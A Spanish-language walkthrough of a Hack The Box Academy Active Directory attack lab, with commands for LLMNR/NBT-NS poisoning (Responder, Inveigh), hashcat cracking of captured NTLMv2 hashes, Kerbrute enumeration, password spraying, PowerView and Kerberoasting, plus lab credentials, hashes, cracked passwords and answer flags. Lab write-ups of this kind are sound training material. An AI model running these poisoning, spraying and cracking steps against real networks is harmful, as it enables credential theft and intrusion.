# Active Directory Enumeration & Attacks

## Initial Enumeration

### External Recon and Enumeration Principles

1. **While looking at inlanefreights public records; A flag can be seen. Find the flag and submit it. ( format == HTB{******} )**

```
dig inlanefreight.com any
```

**dig**: Es una herramienta que sirve para consultar servidores DNS y obtener información detallada sobre dominios.

**any**: Se usa para consultar **todos los tipos de registros DNS** (como A (IPs), MX (correo), TXT (texto/flags), NS (nameservers)) disponibles para un dominio específico.

<p align="center"> 

</p>

### Initial Enumeration of the Domain

1. **From your scans, what is the "commonName" of host 172.16.5.5 ?**

SSH to **10.129.23.96 (ACADEMY-EA-ATTACK01)**, with user "**<font color="#92d050">htb-student</font>**" and password "<font color="#ff0000">HTB_@cademy_stdnt!</font>"

---

En primer lugar, hay que saber que es **"commonName"**. Es el nombre común del objeto específico dentro del directorio, como el nombre del host o usuario.

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 10.129.23.96
```

<p align="center"> 

</p>

Compruebo que tengo el puerto 3389 abierto, y además tengo las credenciales disponible. Recordemos que siempre que el puerto 3389 este abierto usamos la herramienta **xfreerdp**

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.23.128
```

<p align="center"> 

</p>

Una vez dentro, usamos la terminal del sistema:

```
ip a
```

<p align="center"> 

</p>

Comprobamos que la ip **172.16.5.255** está en el mismo segmento del ip **172.16.5.5**

Usando la herramienta **fping** tratamos de descubrir hosts vivos (IPs que responden ping/ICMP) en un segmento/rango de red de forma rápida y silenciosa.

```
fping -asgq 172.16.5.0/23
```

`a`: para mostrar los objetivos que están vivos
`s`: para imprimir estadísticas al final del escaneo 
`g`: para generar una lista de objetivos desde la red CIDR
`q`: para no mostrar resultados por objetivo.

<p align="center"> 

</p>

Con este comando encontramos dos nuevas ip **172.16.5.5** y **172.16.5.225**

Usando la herramienta **nmap** con el parametro **-A** conseguimos el CN (commonName) en la ip **172.16.5.5**

```
nmap -A 172.16.5.5
```

**-A** : equivale a: `-sV -sC -O -traceroute --reason`

<p align="center"> 

</p>

2. **What host is running "Microsoft SQL Server 2019 15.00.2000.00"? (IP address, not Resolved name)**

```
nmap -A 172.16.5.130
```

<p align="center"> 

</p>

## Sniffing out a Foothold

### LLMNR/NTB-NS Poisoning - from Linux

**1. Run Responder and obtain a hash for a user account that starts with the letter b. Submit the account name as your answer.**

SSH a 10.129.33.102 (ACADEMY-EA-ATTACK01), con el usuario "<font color="#00b050">htb-student</font>" y la contraseña "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 10.129.33.102
```

```bash
PORT     STATE SERVICE       REASON         VERSION
22/tcp   open  ssh           syn-ack ttl 63 OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 97:cc:9f:d0:a3:84:da:d1:a2:01:58:a1:f2:71:37:e5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDBzMHpEau6MHZcGSsTYZU+p/3wKO3Ue/g9xrraEMn0XMPJ//EYPDkLdSsPIzG3nX5HaxlaHRiU/WOyutXZIvajZefb9tb1TSwg/U23BCC+m0BcdIwP8liGZrgu/wT/MhMER5v3pleiyLL1Qd1D1H9q/eJRUasDBnFAmDzmSmCD/CqNy07LahMhp9DUi4WPTOtd/6AZEvHqUM+Ew5ouE6F2PxnR5gusoAYcElHXjC2c/qUJqZBFtKybCj4bJjtNk/UZqxulr5QjLsyL4jjL2bE7HX7X/f1RLWXtClBZl2LGEido2qrUfcsT1KxFSvEWDip184NFfuFGrKQPz7qZuuer0YTg08rD9MXdbZdeSHU+OkYJfCRaCNhb40msGHmZY3gyjY4Ib+zD9oJRCXJZxJlIePq/Qgd+LSNqQzq2z6EpQITZW0t9Ffo8P33sdfilzBvYZwC0MIuxafrIV+AumCjYTfk/FGYGQw+MzG7mILe8nJ+HBVxGrzEiDa5EJUTBgCk=
|   256 03:15:a9:1c:84:26:87:b7:5f:8d:72:73:9f:96:e0:f2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAV5VkZrDX2toVZlY7gYOG0i5QC3QdLs1stBzWnJgf/j/RnYOPZS4AjsmOReMuSlnFOK5AdGyFmJUr7yDZZTXP0=
|   256 55:c9:4a:d2:63:8b:5f:f2:ed:7b:4e:38:e1:c9:f5:71 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMrsHtr3DOLwnhjwTGliKzG+jxWHVGVKhCPaypHJg3cL
3389/tcp open  ms-wbt-server syn-ack ttl 63 Microsoft Terminal Service
Service Info: OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows
```

Al tener abierto el puerto 3389 usaremos la herramienta **xfreerdp**, como además la actividad nos da las credenciales.

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.33.102:3389
```

<p align="center"> 

</p>

Una vez dentro, nos vamos a la terminal, identificamos que redes tenemos dentro del sistema.

```
ip a
```

<p align="center"> 

</p>

Luego, usaremos la herramienta **responder**. 

> **Responder** es una herramienta de pentesting para envenenamiento LLMNR/NBT-NS/mDNS en redes Windows.

> Se hace pasar por el host que las víctimas buscan cuando fallan las consultas DNS, responde con su IP y levanta servidores falsos (SMB, HTTP, LDAP, etc.) que capturan hashes NTLMv1/v2 cuando intentan autenticarse.

```
sudo responder -I ens224
```

Cuando usemos la herramienta es crucial tener activado LLMR y NBT-NS

<p align="center"> 


</p>

answer: **backupagent**

2. **Crack the hash for the previous account and submit the cleartext password as your answer.**

Creamos un archivo con todo el hash llamado backup

```
backupagent::INLANEFREIGHT:73395e0e77832833:D4C6CEDBD1C4253D09A26FB16F35EF38:0101000000000000807D9B1483BEDC018930E033366F91EE000000000200080039005A004600550001001E00570049004E002D00560059005600500036003500550032004A005700440004003400570049004E002D00560059005600500036003500550032004A00570044002E0039005A00460055002E004C004F00430041004C000300140039005A00460055002E004C004F00430041004C000500140039005A00460055002E004C004F00430041004C0007000800807D9B1483BEDC01060004000200000008003000300000000000000000000000003000002231BC5282A6D56B600AABB6EBF365DA1ADB3CD717E5414BE8C34EB9EB8F2F780A001000000000000000000000000000000000000900220063006900660073002F003100370032002E00310036002E0035002E003200320035000000000000000000
```

```
sudo hashcat -m 5600 backup /usr/share/wordlists/rockyou.txt 
```

<p align="center"> 

</p>

answer: **h1backup55**

3.  **Ejecuta Responder y obtén un hash NTLMv2 para el usuario wley. Descifra el hash usando Hashcat y pon la contraseña del usuario como respuesta.**

```
sudo responder -I ens224
```

Obtenemos el hash del usuario **wley** lo guardamos en un archivo llamado wley

```
wley::INLANEFREIGHT:bef66527666a96a0:A268F7F530FCF9A7B9C761C0C08F731A:0101000000000000807D9B1483BEDC011E682B0FBB4E17B9000000000200080039005A004600550001001E00570049004E002D00560059005600500036003500550032004A005700440004003400570049004E002D00560059005600500036003500550032004A00570044002E0039005A00460055002E004C004F00430041004C000300140039005A00460055002E004C004F00430041004C000500140039005A00460055002E004C004F00430041004C0007000800807D9B1483BEDC01060004000200000008003000300000000000000000000000003000002231BC5282A6D56B600AABB6EBF365DA1ADB3CD717E5414BE8C34EB9EB8F2F780A001000000000000000000000000000000000000900220063006900660073002F003100370032002E00310036002E0035002E003200320035000000000000000000
```

Para obtener la contraseña del usuario usaremos la herramienta **hashcat**

```
sudo hashcat -m 5600 wley /usr/share/wordlists/rockyou.txt
```

<p align="center"> 

</p>

answer: **transporter@4**
### LLMNR/NTB-NS Poisoning - from Windows

1. **Run Inveigh and capture the NTLMv2 hash for the svc_qualys account. Crack and submit the cleartext password as the answer.**

RDP to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">Academy_student_AD!</font>"

El puerto **3389** esta habilitado, aparte con las credenciales que nos han dado usaremos la herramienta **xfreerdp**

```
xfreerdp /u:htb-student /p:Academy_student_AD! /v:10.129.33.102:3389
```

<p align="center"> 

</p>

Una vez dentro, abrimos la **powershell** con permiso de **Administrador**, luego nos vamos a la carpeta **tools**

<p align="center"> 

</p>

```
Import-Module .\Inveigh.ps1
```

> **Import-Module .\Inveigh.ps1** carga el módulo PowerShell **Inveigh**, equivalente a Responder pero para Windows.

> Inveigh envenena **LLMNR/NBT-NS/mDNS** respondiendo consultas fallidas de DNS con su IP, levanta servidores falsos (SMB, HTTP, LDAP) y captura hashes NTLMv2 cuando víctimas intentan autenticarse.

```
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

> **Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y** activa el envenenamiento LLMNR/NBT-NS con Inveigh.

> - **Invoke-Inveigh Y**: Activa el envenenamiento **LLMNR** (por defecto, solo necesitas escribir "Y")
> - **NBNS Y**: Activa específicamente **NBT-NS** (NetBIOS Name Service) poisoning
> - **ConsoleOutput Y**: Muestra **toda la actividad en tiempo real** en la consola (requests, hashes capturados)
> - **FileOutput Y**: **Guarda logs y hashes** en archivos en `C:\Tools\` para análisis posterior

```
.\Inveigh.exe
```

> **Inveigh.exe** es la versión **compilada en ejecutable nativo** (C#/.NET) de Inveigh, equivalente al script PowerShell `Inveigh.ps1`.

Esto irá soltando bastante información, aquí la idea sería esperar **dos a minutos** para que el script capture todos los usuarios con sus hashes

<p align="center"> 

</p>

Para ejecutar comandos dentro del script le damos a la tecla **escape** y escribimos help para activar los comandos de ayuda

<p align="center"> 

</p>

```
help
```

<p align="center"> 

</p>

```
GET NTLMV2UNIQUE
```

> **GET NTLMV2UNIQUE** muestra **un hash NTLMv2 único por cada usuario** que ha sido capturado.

<p align="center"> 

</p>

Guardamos el hash en un archivo llamado **sv_qualys**

```
svc_qualys::INLANEFREIGHT:991CE496724FEEE4:E3CD5D3C37918F76EE10529EE03881C9:0101000000000000ED03831CB2BEDC010B68D07C6E1CBEE60000000002001A0049004E004C0041004E004500460052004500490047004800540001001E00410043004100440045004D0059002D00450041002D004D005300300031000400260049004E004C0041004E00450046005200450049004700480054002E004C004F00430041004C0003004600410043004100440045004D0059002D00450041002D004D005300300031002E0049004E004C0041004E00450046005200450049004700480054002E004C004F00430041004C000500260049004E004C0041004E00450046005200450049004700480054002E004C004F00430041004C0007000800ED03831CB2BEDC010600040002000000080030003000000000000000000000000030000009671B8DAB3F371B1CE7D278CA2E9AEDB23055CFC4B382FE4DF1C5C61941FE340A001000000000000000000000000000000000000900200063006900660073002F003100370032002E00310036002E0035002E00320035000000000000000000
```

```
sudo hashcat -m 5600 sv_qualys /usr/share/wordlists/rockyou.txt
```

<p align="center"> 

</p>

Answer: **security#1**

## Sighting In, Hunting For A User

### Enumerating & Retrieving Password Policies

1. **What is the default Minimum password length when a new domain is created? (One number)**

SSH to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

<p align="center"> 

</p>

Answer: **7**

2. **What is the minPwdLength set to in the INLANEFREIGHT.LOCAL domain? (One number)**

Al realizar el nmap y darme cuenta que el puerto **3389** está abierto inmediatamente uso la herramienta **xfreerdp**

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.34.151:3389
```

Dentro del sistema abrimos la terminal y escribimos lo siguiente:

```
enum4linux -P 172.16.5.5
```

<p align="center"> 

</p>

### Password Spraying - Making a Target User List 

1. **Enumerate valid usernames using Kerbrute and the wordlist located at /opt/jsmith.txt on the ATTACK01 host. How many valid usernames can we enumerate with just this wordlist from an unauthenticated standpoint?**

SSH to 10.129.34.151 (ACADEMY-EA-ATTACK01), with user "<font color="#9bbb59">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

Al realizar el nmap y darme cuenta que el puerto **3389** está abierto inmediatamente uso la herramienta **xfreerdp**

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.34.151:3389
```

Dentro del sistema abrimos la terminal y escribimos lo siguiente:

```
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```

- **kerbrute userenum**:

> Indica que estás usando el modo **userenum** de Kerbrute, pensado para “fuerza bruta” de usuarios válidos enviando solicitudes **TGT de Kerberos** y mirando la respuesta del KDC.

> Si el KDC responde con solicitud de pre‑autenticación, el usuario existe; si responde con KDC_ERR_C_PRINCIPAL_UNKNOWN, el usuario no existe.

* **-d inlanefreight.local**:

> Define el dominio sobre el que se está trabajando: en este caso **inlanefreight.local.**

> **Kerbrute** usa este nombre para construir el principal Kerberos

* **--dc 172.16.5.5**:

> Indica la **IP del Domain Controller / KDC** al que se envían las solicitudes de Kerberos (puerto 88/TCP‑UDP).

> Esto evita que **Kerbrute** tenga que resolver DNS del dominio y apunta directamente al **DC** que quieres probar.

* **/opt/jsmith.txt**:

> Es la lista de nombres de usuario que **Kerbrute** va a probar contra el dominio.

> Cada línea del fichero se prueba como posible cuenta válida y se filtra para mostrar solo los usuarios que existen.

```bash
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 03/29/26 - Ronnie Flathers @ropnop

2026/03/29 06:06:37 >  Using KDC(s):
2026/03/29 06:06:37 >  	172.16.5.5:88

2026/03/29 06:06:37 >  [+] VALID USERNAME:	 jjones@inlanefreight.local
2026/03/29 06:06:37 >  [+] VALID USERNAME:	 sbrown@inlanefreight.local
2026/03/29 06:06:37 >  [+] VALID USERNAME:	 tjohnson@inlanefreight.local
2026/03/29 06:06:37 >  [+] VALID USERNAME:	 jwilson@inlanefreight.local
2026/03/29 06:06:37 >  [+] VALID USERNAME:	 bdavis@inlanefreight.local
2026/03/29 06:06:37 >  [+] VALID USERNAME:	 njohnson@inlanefreight.local
2026/03/29 06:06:37 >  [+] VALID USERNAME:	 asanchez@inlanefreight.local
2026/03/29 06:06:37 >  [+] VALID USERNAME:	 dlewis@inlanefreight.local
2026/03/29 06:06:37 >  [+] VALID USERNAME:	 ccruz@inlanefreight.local
2026/03/29 06:06:37 >  [+] mmorgan has no pre auth required. Dumping hash to crack offline:
$krb5asrep$23$mmorgan@INLANEFREIGHT.LOCAL:761346cbcef9234b9e9ae76f189b803f$05e8ad2f61b8d988422461597fb502cf047595b226f830f14d1a6fb0f1d0321cf5bedfcde4cbf4ceab31bc61a549214e79a334e8d110745c31ef726674cb515bebc50af65196d8b73fec49bfc284bd6fced134a2b6d7b789576966b18de14f53c6d023113bf96347222bc49b53d9ab2edfba900da695dcee66e8e7ca66d9f588134bbfea9009d3d2dc9e2377986cdcea9f5ba053e6fd92604fc833aee23e246780ec41a54cad441e1fc2be55bd9b5447b46dd07c99a5a4045180694b3e5f73dd0eb00ae30e84bb50b2867b717efc3759111d97c402886447b266cf391ff3617b725dd432efaa203a2ae1a35b8fb61a00ec9d63c6016474882299fb326e4da97b72dda7964a5fff188d26
2026/03/29 06:06:37 >  [+] VALID USERNAME:	 mmorgan@inlanefreight.local
2026/03/29 06:06:37 >  [+] VALID USERNAME:	 rramirez@inlanefreight.local
2026/03/29 06:06:37 >  [+] VALID USERNAME:	 jwallace@inlanefreight.local
2026/03/29 06:06:37 >  [+] VALID USERNAME:	 jsantiago@inlanefreight.local
2026/03/29 06:06:37 >  [+] VALID USERNAME:	 gdavis@inlanefreight.local
2026/03/29 06:06:37 >  [+] VALID USERNAME:	 mrichardson@inlanefreight.local
2026/03/29 06:06:37 >  [+] VALID USERNAME:	 mharrison@inlanefreight.local
2026/03/29 06:06:37 >  [+] VALID USERNAME:	 tgarcia@inlanefreight.local
2026/03/29 06:06:37 >  [+] VALID USERNAME:	 jmay@inlanefreight.local
2026/03/29 06:06:37 >  [+] VALID USERNAME:	 jmontgomery@inlanefreight.local
2026/03/29 06:06:37 >  [+] VALID USERNAME:	 jhopkins@inlanefreight.local
2026/03/29 06:06:38 >  [+] VALID USERNAME:	 dpayne@inlanefreight.local
2026/03/29 06:06:38 >  [+] VALID USERNAME:	 mhicks@inlanefreight.local
2026/03/29 06:06:38 >  [+] VALID USERNAME:	 adunn@inlanefreight.local
2026/03/29 06:06:38 >  [+] VALID USERNAME:	 lmatthews@inlanefreight.local
2026/03/29 06:06:38 >  [+] VALID USERNAME:	 avazquez@inlanefreight.local
2026/03/29 06:06:38 >  [+] VALID USERNAME:	 mlowe@inlanefreight.local
2026/03/29 06:06:38 >  [+] VALID USERNAME:	 jmcdaniel@inlanefreight.local
2026/03/29 06:06:38 >  [+] VALID USERNAME:	 csteele@inlanefreight.local
2026/03/29 06:06:39 >  [+] VALID USERNAME:	 mmullins@inlanefreight.local
2026/03/29 06:06:39 >  [+] VALID USERNAME:	 mochoa@inlanefreight.local
2026/03/29 06:06:40 >  [+] VALID USERNAME:	 aslater@inlanefreight.local
2026/03/29 06:06:40 >  [+] VALID USERNAME:	 ehoffman@inlanefreight.local
2026/03/29 06:06:40 >  [+] VALID USERNAME:	 ehamilton@inlanefreight.local
2026/03/29 06:06:41 >  [+] VALID USERNAME:	 cpennington@inlanefreight.local
2026/03/29 06:06:41 >  [+] VALID USERNAME:	 srosario@inlanefreight.local
2026/03/29 06:06:41 >  [+] VALID USERNAME:	 lbradford@inlanefreight.local
2026/03/29 06:06:42 >  [+] VALID USERNAME:	 halvarez@inlanefreight.local
2026/03/29 06:06:42 >  [+] VALID USERNAME:	 gmccarthy@inlanefreight.local
2026/03/29 06:06:42 >  [+] VALID USERNAME:	 dbranch@inlanefreight.local
2026/03/29 06:06:42 >  [+] VALID USERNAME:	 mshoemaker@inlanefreight.local
2026/03/29 06:06:43 >  [+] VALID USERNAME:	 mholliday@inlanefreight.local
2026/03/29 06:06:44 >  [+] VALID USERNAME:	 ngriffith@inlanefreight.local
2026/03/29 06:06:44 >  [+] VALID USERNAME:	 sinman@inlanefreight.local
2026/03/29 06:06:44 >  [+] VALID USERNAME:	 minman@inlanefreight.local
2026/03/29 06:06:44 >  [+] VALID USERNAME:	 rhester@inlanefreight.local
2026/03/29 06:06:44 >  [+] VALID USERNAME:	 rburrows@inlanefreight.local
2026/03/29 06:06:46 >  [+] VALID USERNAME:	 dpalacios@inlanefreight.local
2026/03/29 06:06:47 >  [+] VALID USERNAME:	 strent@inlanefreight.local
2026/03/29 06:06:47 >  [+] VALID USERNAME:	 fanthony@inlanefreight.local
2026/03/29 06:06:47 >  [+] VALID USERNAME:	 evalentin@inlanefreight.local
2026/03/29 06:06:48 >  [+] VALID USERNAME:	 sgage@inlanefreight.local
2026/03/29 06:06:48 >  [+] VALID USERNAME:	 jshay@inlanefreight.local
2026/03/29 06:06:49 >  [+] VALID USERNAME:	 jhermann@inlanefreight.local
2026/03/29 06:06:50 >  [+] VALID USERNAME:	 whouse@inlanefreight.local
2026/03/29 06:06:50 >  [+] VALID USERNAME:	 emercer@inlanefreight.local
2026/03/29 06:06:51 >  [+] VALID USERNAME:	 wshepherd@inlanefreight.local
2026/03/29 06:06:52 >  Done! Tested 48705 usernames (56 valid) in 15.848 seconds
```

Answer: **56 users**

## Spray Responsibly

### Internal Password Spraying - from Linux

1. **Find the user account starting with the letter "s" that has the password Welcome1. Submit the username as your answer.**

SSH to 10.129.47.223 (ACADEMY-EA-ATTACK01), with user "<font color="#9bbb59">htb-student</font>" and password "<font color="#ff0000">HTB_@cademy_stdnt!</font>"

Seguimos dentro de la máquina, para refrescar de como entrar dentro usamos el siguiente comando:

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.47.223:3389
```

Dentro de la terminal, recordando la actividad anterior que nos soltó un montón de usuarios lo guardaremos dentro de **valid_users.txt**

```
cat valid_users.txt | grep 'jjones@inlanefreight.local' -A 57 | awk 'NF{print $NF}'| cut -d'@' -f1 >> users.txt
```

Realizo este comando para obtener todos los usuarios

```
for u in $(cat users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5  | grep Authority; done
```

Intento **autenticarse contra un servidor SMB** con todos los usuarios.

<p align="center"> 

</p>

answer: **sgage**

### Internal Password Spraying - from Windows

1. **Using the examples shown in this section, find a user with the password Winter2022. Submit the username as the answer.**

 RDP to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">Academy_student_AD!</font>"

```
xfreerdp /u:htb-student /p:Academy_student_AD! /v:10.129.48.7:3389
```

Ingresamos en la powershell y nos vamos a la carpeta **tools** e ingresamos el siguiente comando:

```
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Winter2022 -OutFile spray_success -ErrorAction SilentlyContinue
```

En primer lugar, cargamos el script **DomainPasswordSpray.ps1**
En segundo lugar, el segundo comando realiza el ataque **Password Spraying** que intenta autenticar muchos usuarios del dominio con una misma contraseña
**-OutFile spray_success**: Guarda los resultados en un archivo llamado **spray_success**
**-ErrorAction SilentlyContinue:** Oculta errores

<p align="center"> 

</p>

**Answer:** dbranch

## Deeper Down the rabbit Hole

### Credentialed Enumeration - from Linux

1. **What AD User has a RID equal to Decimal 1170?**

SSH to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

En primer lugar que tenemos que pasar el numero decimal 1170 a hexadecimal y por ultimo a binario. Visitaremos esta (https://www.prepostseo.com/tool/es/decimal-to-hex)[pagina]

<p align="center"> 

</p>

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.52.243:3389
```

Luego dentro del terminal 

```
rpcclient -U "" -N 172.16.5.5 
queryuser 0x492
```

<p align="center"> 

</p>

answer: **mmorgan**

2. **### What is the membercount: of the "Interns" group?**

Repasando los apuntes uso el siguiente comando para responder la pregunta:

```
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups | grep -i "interns"
```

<p align="center"> 

</p>

answer: **10**

### Credentialed Enumeration - from Windows

1. **Using Bloodhound, determine how many Kerberoastable accounts exist within the INLANEFREIGHT domain. (Submit the number as the answer)**

RDP to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">Academy_student_AD!</font>"

A continuación usaremos la herramienta **PowerView**

>**PowerView** es una herramienta escrita en PowerShell para ayudarnos a obtener conciencia situacional dentro de un entorno AD. Similar a BloodHound, proporciona una forma de identificar dónde los usuarios se han conectado en una red, enumerar información de dominio como usuarios, computadoras, grupos, ACLs, trusts, buscar shares de archivos y contraseñas, realizar Kerberoasting, y más. Es una herramienta muy versátil que puede proporcionarnos una gran visión sobre la postura de seguridad del dominio de nuestros clientes. Requiere más trabajo manual para determinar configuraciones incorrectas y relaciones dentro del dominio que BloodHound, pero, cuando se utiliza correctamente, puede ayudarnos a identificar configuraciones incorrectas sutiles.

```
xfreerdp /u:htb-student /p:Academy_student_AD! /v:10.129.53.40:3389
```

Ingresamos en PowerShell y nos vamos a la carpeta **Tools** que es donde se ubica la herramienta **PowerView**

```
Import-Module .\PowerView.ps1
Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName
```

Importamos la herramienta **PowerView**
Además, el siguiente comando lista usuarios del dominio de **Active Directory** que tienen **SPNs** (es un identificador único que vincula un servicio específico (como MSSQL, HTTP) a una cuenta de AD para autenticación Kerberos) asignados, mostrando solo su nombre de cuenta y los SPNs

<p align="center"> 

</p>

answer: **13**

2. **What PowerView function allows us to test if a user has administrative access to a local or remote host?**

```
Test-AdminAccess -ComputerName ACADEMY-EA-MS01
```

Es una función de **PowerSploit (PowerView)** que comprueba si el usuario actual tiene **permisos de administrador local** en una máquina específica, en este caso en el equipo `ACADEMY-EA-MS01`

<p align="center"> 

</p>

answer: **Test-AdminAccess**

3. **Run Snaffler and hunt for a readable web config file. What is the name of the user in the connection string within the file?**

```
.\Snaffler.exe  -d INLANEFREIGHT.LOCAL -s -v data
```

> **Snaffler** sirve para buscar **credenciales y datos sensibles** compartidos en el dominio `INLANEFREIGHT.LOCAL`

- `-d INLANEFREIGHT.LOCAL` : Le indica a Snaffler que **busque equipos dentro del dominio** `INLANEFREIGHT.LOCAL`.

- `-s` (**stdout**)  : Hace que Snaffler muestre **los resultados por pantalla en tiempo real** (no solo en un archivo de log).

- `-v data` : Define el **nivel de verbosidad**: `data` significa que solo muestra los hallazgos “interesantes” (por ejemplo, ficheros con credenciales, notas, backups, etc.), sin tanto log de depuración

<p align="center"> 

</p>

answer: **as**

4. **What is the password for the database user?**

Se responder con la respuesta de la pregunta anterior.

answer: **ILFREIGHTDB01!**

### Living Off the Land

1. **Enumerate the host's security configuration information and provide its AMProductVersion.

RDP to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">Academy_student_AD!</font>"

Ingresamos en la powershell y luego ingresamos al siguiente comando, no es necesario estar situado en la carpeta **Tools** 

```
Get-MpComputerStatus
```

> El cmdlet `Get-MpComputerStatus` sirve para **ver el estado actual de Microsoft Defender (Antivirus / antimalware)** en un equipo Windows.

<p align="center"> 

</p>

answer: **4.18.2109.6**

2. **What domain user is explicitly listed as a member of the local Administrators group on the target host?**

```
net localgroup administrators
```

>Este comando sirve para **mostrar los miembros del grupo local “Administrators”** en el equipo donde lo ejecutes.

<p align="center"> 

</p>

answer: **adunn**

3. **Utilizing techniques learned in this section, find the flag hidden in the description field of a disabled account with administrative privileges. Submit the flag as the answer.**

```
dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=2))" -attr distinguishedName userAccountControl, description
```

> Dsquery es una herramienta de línea de comandos útil que se puede utilizar para encontrar objetos de Active Directory. Las consultas que ejecutamos con esta herramienta se pueden replicar fácilmente con herramientas como BloodHound y PowerView, pero no siempre tenemos esas herramientas a nuestra disposición, como se discutió al principio de la sección. Sin embargo, es una herramienta que los administradores de dominio probablemente están utilizando en su entorno. Con eso en mente, `dsquery` existirá en cualquier host con el `Active Directory Domain Services Role` instalado, y la `dsquery` DLL existe en todos los sistemas Windows modernos por defecto ahora y se puede encontrar en `C:\Windows\System32\dsquery.dll` .

- `dsquery *` → busca objetos en AD usando el filtro que le indiques, sin limitarte a una sola clase (`user`, `computer`, etc.).
- `-filter "..."` → define un filtro LDAP sobre qué objetos recuperar.

Dentro del filtro hay tres condiciones unidas con `&` (AND):

- `(objectCategory=person)` → objetos de tipo “persona” (principalmente usuarios).
- `(objectClass=user)` → objetos de clase `user` (cuentas de usuario).
- `(userAccountControl:1.2.840.113556.1.4.803:=2)` → usa un **operador de bits** especial para ver si el flag `2` está activo en `userAccountControl`.
	- El valor `2` en el `userAccountControl` = `ACCOUNTDISABLE`, es decir, **usuario deshabilitado**

2. `-attr distinguishedName userAccountControl description`

Aquí le dices a `dsquery` qué atributos de cada objeto mostrar:

- `distinguishedName` → la ruta completa del objeto en AD (ejemplo: `CN=forend,OU=Users,DC=INLANEFREIGHT,DC=LOCAL`).

- `userAccountControl` → el valor numérico del atributo que contiene flags de cuenta (deshabilitado, no expira, etc.).

- `description` → la descripción / texto de la cuenta de usuario, muchas veces utilizado como nota interna (por ejemplo, “Staged intern”, “Temp account”, etc.).

Por tanto, `dsquery` busca todos los usuarios deshabilitados en AD y te muestra su ruta en el directorio, el valor de `userAccountControl` y el campo `description` para cada uno

<p align="center"> 

</p>

answer: **HTB{LD@P_I$_W1ld}**

## Cooking with Fire

### Kerberoasting - from Linux

1. **Retrieve the TGS ticket for the SAPService account. Crack the ticket offline and submit the password as your answer.**

SSH to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

Ingresamos dentro de la maquina

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.9.118:3389 /f
```

Luego dentro de la terminal, ingresamos el siguiente comando

```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend:Klmcargo2 -request-user SAPService
```

**Dato importante** La contraseña del usuario forend se encuentra en el apartado

**Credentialed Enumeration - from Linux** que es **Klmcargo2**

* GetUserSPNs.py: Herramienta de **Impacket** que se encarga de enumerar cuentas con SPNs (Service Principal Names)
* -dc-ip 172.16.5.5: Especifica la IP del **Domain Controller** y evita depender de DNS
* INLANEFREIGHT.LOCAL/forend:Klmcargo2: Credenciales: **Dominio**: INLANEFREIGHT.LOCAL **Usuario**: forend **Password**: Klmcargo2
* -request-user SAPService: Solicita un ticket Kerberos SOLO para este usuario

Por tanto, este comando lo que hace es obtener el ticket Kerberos del usuario `SAPService` para intentar crackear su contraseña offline

